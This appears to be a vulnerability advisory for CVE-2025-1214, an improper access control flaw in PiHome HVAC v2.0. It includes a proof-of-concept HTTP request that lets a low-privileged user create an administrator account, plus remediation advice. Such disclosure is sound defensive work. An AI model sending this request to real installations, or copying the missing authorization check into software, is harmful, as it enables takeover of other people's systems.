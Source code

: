 # **Improper Access Control in PiHome HVAC v2.0**

## **Summary**
A critical security vulnerability has been identified in PiHome HVAC v2.0, specifically in the `/user_accounts.php` endpoint. The application fails to enforce proper access control, allowing unprivileged users to create new admin accounts.

## **Affected Component**
- **Endpoint:** `/user_accounts.php`
- **CWE:** [CWE-862: Improper Access Control](https://cwe.mitre.org/data/definitions/862.html)
- **CVE:** [CVE-2025-1214](https://www.cve.org/CVERecord?id=CVE-2025-1214)
- **VulDB:** [VDB-295173](https://vuldb.com/?id.295173)

## **Vendor Homepage**
[PiHome HVAC GitHub Repository](https://github.com/pihome-shc/PiHomeHVAC)

## **Steps to Reproduce**
1. Set up the PiHome HVAC project.
2. Use cURL or Burp Suite to craft a request that creates a new account with administrative privileges.

## **Impact**
The application does not validate whether the user making the request has admin privileges before allowing account creation. This oversight enables any authenticated user, including low-privileged accounts, to create new admin accounts, leading to full system compromise.

## **Proof of Concept (PoC)**
### **HTTP Request:**
```http
POST /user_accounts.php?uid HTTP/1.1
Host: 127.0.0.1:8888
Content-Length: 143
Cache-Control: max-age=0
sec-ch-ua: "Not A(Brand";v="8", "Chromium";v="132"
sec-ch-ua-mobile: ?0
sec-ch-ua-platform: "macOS"
Accept-Language: en-GB,en;q=0.9
Origin: http://127.0.0.1:8888
Content-Type: application/x-www-form-urlencoded
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 10_15_7) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/132.0.0.0 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7
Sec-Fetch-Site: same-origin
Sec-Fetch-Mode: navigate
Sec-Fetch-User: ?1
Sec-Fetch-Dest: document
Referer: http://127.0.0.1:8888/user_accounts.php
Accept-Encoding: gzip, deflate, br
Cookie: PHPSESSID=4821f6d66308626b9f9e54f8c27426fc; PiHomeLanguage=en
Connection: keep-alive

submit=Save&full_name=Jelle&account_enable=1&user_name=attackeradmin&user_email=attacker%40exploit.be&admin_account=1&persist=0&new_pass=pihome
```

### **Screenshot Proof:**
![Exploit Proof](./assets/pihome-hvac-improper-access-control.png)

## **Remediation**
To mitigate this vulnerability, it is recommended to:
1. **Implement Role-Based Access Control (RBAC):** Ensure only admin users can create new admin accounts.
2. **Enforce Authorization Checks:** Before processing any account creation request, verify if the requester has the appropriate privileges.
3. **Audit and Log Account Creation Requests:** Maintain logs of account creation actions and review them periodically for suspicious activity.
4. **Apply Least Privilege Principle:** Restrict low-privileged users from accessing administrative functions.

## **Credits**
This vulnerability was discovered and reported by [Jelle Janssens](https://github.com/janssensjelle).